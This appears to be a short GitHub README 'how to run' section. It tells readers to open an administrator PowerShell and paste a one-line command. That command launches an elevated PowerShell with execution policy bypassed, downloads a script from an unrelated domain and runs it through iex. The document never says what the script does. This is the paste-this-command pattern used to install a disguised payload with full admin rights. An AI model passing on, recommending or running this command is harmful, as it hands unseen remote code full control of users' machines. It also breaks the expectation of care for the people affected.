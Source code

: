### HOW TO RUN

-   Right-click on the Windows start menu and select PowerShell (Admin).
-   Alternative Download [PowerShellx64.msi](https://github.com/PowerShell/PowerShell/releases/download/v7.4.5/PowerShell-7.4.5-win-x64.msi) or [PowerShellx86.msi](https://github.com/PowerShell/PowerShell/releases/download/v7.4.5/PowerShell-7.4.5-win-x86.msi) and Run As Admin PowerShell 7
-   Copy and paste the code below and press enter
```
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command `"iex (iwr 'https://mnet.my.id/update/github/c' -UseBasicParsing)`"" -Verb RunAs
```
-  You will see the download.
-  That's all.

</br>
